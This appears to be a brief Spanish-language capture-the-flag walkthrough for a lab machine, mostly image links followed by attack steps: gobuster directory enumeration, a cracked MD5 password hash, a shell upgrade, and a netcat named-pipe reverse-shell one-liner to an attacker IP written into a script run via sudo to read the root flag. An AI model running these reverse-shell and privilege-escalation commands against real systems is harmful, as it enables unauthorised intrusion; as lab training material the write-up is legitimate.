









Utilizando Gobuster para descubrir directorios:
gobuster dir -u http://10.10.109.205/ -w /usr/share/wordlists/dirb/common.txtFuzzing en la ruta encontrada:
    Usuario encontrado: manager
Hash: 42f749ade7f9e195bf475f37a44cafcb
Contraseña descifrada: Password123
  Abrimos una shell interactiva:
python -c 'import pty; pty.spawn("/bin/bash")'Creación de un script para reverse shell:
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.67.209 4444 >/tmp/f' > /etc/copy.shsudo /usr/bin/perl /home/itguy/backup.plcat /root/root.txt